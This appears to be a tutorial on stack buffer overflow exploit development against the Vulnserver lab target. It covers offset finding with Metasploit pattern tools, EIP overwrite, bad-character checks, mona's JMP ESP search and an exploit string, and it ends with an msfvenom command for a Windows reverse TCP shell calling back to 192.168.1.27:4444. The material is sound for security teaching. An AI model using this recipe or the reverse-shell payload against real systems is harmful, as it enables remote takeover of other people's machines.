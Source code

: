 # Introduction to Exploit Development

## Buffer Overflows Explained

### Anatomy of Memory

The section of memory that we are trying to exploit is the section called
the **stack**, or the portion of memory closest to the kernel. Let's break
down the parts of the stack. The registers in the stack are:

- **ESP (Extended Stack Pointer)** *top*

- **Buffer Space**

- **EBP (Extended Base Pointer)** *bottom*

- **EIP (Extended Instruction Pointer)/Return Address**

Starts writing at top, then writes down throught the buffer space. Should
properly sanitize, where the buffer space fills and then stops at the EBP.
In an overflow, the characters fill ESP, the buffer space, and the EBP,
then continue writing into the EIP. Which really holds a pointer address,
that is an address that points to another set of instructions. Therefore
we can insert directions to our own malicious set of instructions. Control
the stack, control the pointer, get a shell. 

### Buffer overlow steps

1. Spiking

2. Fuzzing

3. Finding the offset (where we do break it)

4. Overwriting the EIP

5. Finding the Bad Characters

6. Finding the Right Module

7. Generating Shellcode

8. Root!

## Spiking

Spiking sends a series of values at a command on a machine to see if it is
even possible to "overflow the buffer". 

## Fuzzing

Somewhat like spiking, though we want to try to find exactly *where* the
failure occurs so we know where to insert our shellcode. The next video we
will figure out how to find exactly where the EIP is.

### Finding the Offset

To find where we overwrite the EIP we will use the tool
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000`,
the switch of length 3000 because vulnserver crashed at around 2700 bytes.
This creates a circular bit of code that we will add to a script that I am
goingto call offset.py 

Then run this script against vuln server and get the value of the EIP when
the script causes the server to crash:

> 386F4337

Then we can run another tool called `pattern-offset`:

```

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337

``` 

which returns an exact match at offset 2003. Using this we can then
control the EIP. 

### Overwriting the EIP

Having found the offset we know that there are 2003 bytes before the EIP
and the EIP is exactly 4 bytes long. We will now try to overwrite those
4 bytes.

Start with vulnserver/immunity running, then edit the offset python
script (I am going to call it overwrite.py). This script with write "A"
(or 41) to everything before the EIP and then write "B" (or 42) to the
EIP. This is what ends up happening when you run the script, showing that
you have control of the EIP. 

Now comes housekeeping and using the EIP to send to malicious shellcode.

### Finding Bad Characters

We need to find which characters work well or not in shellcode. Google
'badchars', then manually copy the bad characters list from [bulb
security](https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/)
to the script then have it write the bad characters after the EIP. Be sure
to remove the value "\x00" from the list as this is a known bad character. Run the
script then in immunity debugger, right click on the ESP values and click
"Open in Dump" to view the hex dump. The values should move up in order
from "01" starting immeadiately after the EIP. If now, where there is an
out of place character, then you know the equivalent character is bad.

### Finding the Right Module

What is meant by "finding the right module" is finding a DLL inside of
a program that has no memory protections. There is a script called
[mona](https://github.com/corelan/mona) that is used with immunity
debugger to help automate this process. 

After installing mona.py in 'C:\Program Files (x86)\Immunity Inc\Immunity
Debugger\PyCommands\', run Immunity Debugger and search `! mona modules`
in the search bar at the bottom. This will bring up a window that shows
the protection settings of the various modules, we are looking for one
with all **False**s. We could use the first one, but we need one more
thing before we can use this.

The thing that we need still is the opcode equivalent to `JUMP`. To find
this out use `nasm_shell` located at
`/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`. By opcode,
we are looking for the hexcode equivalent of assembly language. In this
case, we are looking for the equivalent to `JMP ESP`, so run the ruby
module, then enter this at the prompt, which gives us `FFE4`. 

We can take this back to Immunity and go to the search bar and enter `!
mona find -s "i\xff\xe4" -m essfunc.dll`. The module was the first one we
found with our `! mona modules` search. We are looking for the Return
Addresses:

- 0x625011af

- 0x625011bb

- 0x625011c7

- 0x625011d3

- 0x625011df

- 0x625011eb

- 0x625011f7

- 0x62501203

- 0x62501205

Now we can insert this at the position of the EIP in the script and set
a break point in Immunity at this address so we can see if it ran or not.
We have to remember to use "little indian" formating, or reversed order of
the hex-byte pairs, along with "\x" before the number so that the program
knows that the number is a hex byte. Thus:

```

shellcode = "A" * 2003 + "\xaf\x11\x50\x62"

```

Then if everything works properly the EIP should show as `625011af` . Once
this is working, we can now find a malicious shellcode that we can add to
our script to get root.

### Generating Shellcode and Getting Root

The tool used to generate shellcode will be the ever trusty `msfvenom`. To
generate this we will run this command:

```

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.27 LPORT=4444

EXITFUNC=thread -f c -a x86 -b "\x00"

```

- `EXITFUNC` should make the exploit more stable.

- -f is the output format of the c

- -a designates the machine architecture

- -b tells the payload generator what bad characters to avoid.

We can then add this bytecode as a variable to our script and add it to
the shellcode variable after our JMP address. Additionally, we need to
provide "nops" or no operations, as padding between the EIP and the
overflow script. Here we will use `"\x90" * 32`. 

After finishing this script, we can open a NetCat listening port on the
port that we specified in payload script, make sure Vulnserver is running
and then fire the exploit.
